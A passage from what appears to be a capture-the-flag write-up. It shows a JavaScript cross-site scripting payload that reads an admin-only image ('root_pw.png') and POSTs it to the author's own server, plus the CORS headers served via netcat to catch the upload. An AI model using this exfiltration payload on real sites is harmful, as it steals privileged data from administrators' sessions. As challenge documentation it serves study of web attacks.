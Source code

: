 `<img src="admin/img/token.png?20151228" id="img-token"/>` and `<img src="admin/img/root_pw.png?20151228" id="img-bug-0003"/>`. So I proceed with this code:

~~~javascript
var url                 = "/admin/img/root_pw.png?20151228";
var request             = new XMLHttpRequest();
request.open ("GET", url, true);
request.responseType    = "arraybuffer";
request.send(null);

setTimeout(function(){
	
	var blob = new Blob([request.response], {type: "image/png"});
	var oReq = new XMLHttpRequest();
	oReq.open("POST", "http://myserver", true);
	oReq.send(blob);

}, 4000)
~~~

On my server, all this time, I'm just using netcat (yes, eponym) and feeding it an [HTTP response](https://gist.github.com/0xBADCA7/9829ec7f3364fd0b165e) with CORS headers, otherwise any modern browser would halt the request:

~~~http
HTTP/1.1 200 OK
Server: MSLC
Date: Sun, 28 Dec 2015 08:50:04 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Vary: Accept-Encoding
Status: 200 OK
Cache-Control: no-cache
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Origin, X-Requested-With, Content-Type, Accept
Access-Control-Allow-Methods: GET, POST, PUT

~~~

~~~http
HTTP/1.1 200 OK
Server: MSLC
Date: Sun, 28 Dec 2015 08:50:04 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Vary: Accept-Encoding
Status: 200 OK
Cache-Control: no-cache
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Origin, X-Requested-With, Content-Type, Accept
Access-Control-Allow-Methods: GET, POST, PUT
~~~

One is for the `OPTIONS` request and another is the answer itself. 
